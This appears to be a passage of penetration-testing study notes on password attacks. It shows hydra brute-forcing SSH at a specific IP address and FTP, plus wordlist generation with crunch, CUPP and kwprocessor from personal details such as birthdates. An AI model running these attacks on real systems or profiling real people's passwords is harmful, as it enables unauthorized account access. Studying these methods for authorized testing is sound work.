 ```
bash usernameGenerator/usernameGenerator.sh Bill Gates

    Wordlist saved as bill.txt
```
### Service Authentication Brute Forcing

SSH Attack
```
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
FTP Brute Forcing
```
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

## Crunch
Syntax:
```
crunch <minimum length> <maximum length> <charset> -t <pattern> -o <output file>
```
### Generate Word List
```
crunch 4 8 -o wordlist
```
### Create Word List using Pattern
```
crunch 17 17 -t ILFREIGHT201%@@@@ -o wordlist

    The pattern "ILFREIGHT201%@@@@" will create words with the years 2010-2019 followed by four letters. The length here is 17, which is constant for all words.
```
### Specified Repetition
```
crunch 12 12 -t 10031998@@@@ -d 1 -o wordlist

    If we know a user's birthdate is 10/03/1998 (through social media, etc.), we can include this in their password, followed by a string of letters. Crunch can be used to create a wordlist of such words. The "-d" option is used to specify the amount of repetition.
```
## CUPP
CUPP stands for Common User Password Profiler, and is used to create highly targeted and customized wordlists based on information gained from social engineering and OSINT. People tend to use personal information while creating passwords, such as phone numbers, pet names, birth dates, etc. CUPP takes in this information and creates passwords from them. These wordlists are mostly used to gain access to social media accounts. CUPP is installed by default on Parrot OS, and the repo can be found here. The "-i" option is used to run in interactive mode, prompting CUPP to ask us for information on the target.
```
python3 cupp.py -i
```
## KWPROCESSOR
Kwprocessor is a tool that creates wordlists with keyboard walks. Another common password generation technique is to follow patterns on the keyboard. These passwords are called keyboard walks, as they look like a walk along the keys. For example, the string "qwertyasdfg" is created by using the first five characters from the keyboard's first two rows. This seems complex to the normal eye but can be easily predicted. Kwprocessor uses various algorithms to guess patterns such as these.
